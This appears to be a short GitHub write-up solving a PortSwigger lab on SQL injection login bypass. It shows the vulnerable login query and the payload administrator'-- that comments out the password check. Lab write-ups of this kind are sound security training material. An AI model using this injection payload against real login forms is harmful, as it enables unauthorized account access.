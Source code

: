 ## Lab Description: SQL injection vulnerability allowing login bypass

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/a1c1aa4d-99c2-4823-8e1d-a50dc2c6bd4d)

## Solution:

Query made -
```sql
SELECT * FROM users WHERE username = 'administrator' AND password = 'password'
```
To bypass the login, we need to comment out the password part in WHERE clause. 

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/45158836-7ae8-4657-9842-a698940ace47)
```sql
SELECT * FROM users WHERE username = 'administrator'--' 
```
![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/80420257-3c47-49d3-8678-ea57be97ff91)

